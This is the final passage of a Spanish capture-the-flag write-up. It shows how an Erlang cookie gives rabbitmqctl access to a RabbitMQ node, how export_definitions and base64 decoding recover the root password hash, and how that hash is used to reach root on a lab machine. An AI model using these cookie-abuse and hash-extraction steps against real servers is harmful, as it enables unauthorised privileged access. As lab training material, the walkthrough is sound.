 ![](https://miro.medium.com/v2/resize:fit:833/1*eX3MQeejLsDa_5w4ACoosw.png)

Con la cookie de **Erlang**, podemos autenticarnos y comunicarnos con el nodo **RabbitMQ**. Habrá que añadir **forge** en el fichero host.

Ahora, usaremos la herramienta **rabbitmqctl** encontrada para enumerar la instancia **RabbitMQ.**

`sudo rabbitmqctl --erlang-cookie 'iUucRMxsu4kXj85M' --node rabbit@forge status`

![](https://miro.medium.com/v2/resize:fit:875/1*IgiaXbm0AL4cpTr4YxYR0Q.png)

`sudo rabbitmqctl --erlang-cookie 'iUucRMxsu4kXj85M' --node rabbit@forge list_users`

![](https://miro.medium.com/v2/resize:fit:875/1*24DrR3WaDmpvLvh--ORQLA.png)

Investigamos y con el comando **export_definitions** podemos recuperar el hash de a contraseña de root.

![](https://miro.medium.com/v2/resize:fit:875/1*Nm4AYGd_qCmWktp4Yb7sRw.png)

Si leemos el fichero salen muchas palabras pero si nos fijamos…

![](https://miro.medium.com/v2/resize:fit:875/1*u0lBhHI20Cb-lQcTtVELsA.png)

Ahí tenemos el hash. Lo tratamos y lo invertimos para intentar sacar la contraseña de root. Información en los manuales:

https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm

`echo -n "49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF" | base64 -d | xxd -p -c 100`

Nos da este resultado → e3d7ba85295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585

Eliminamos los 4 bytes de sal ( **295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585** )

Entonces probamos como contraseña Y…

![](https://miro.medium.com/v2/resize:fit:381/1*JVCcao75jyY4JLMIjosnEQ.png)

Somos ROOT!!

# Conclusión

Es una máquina de nivel medio la cual necesita de bastante conocimiento y de muchas horas de dedicación por parte de la investigación final yo he tardado en resolverla un total de **7h** aproximadamente, CON AYUDA.

Un saludo, GOOD HACKING!!!!

~~XIII~~
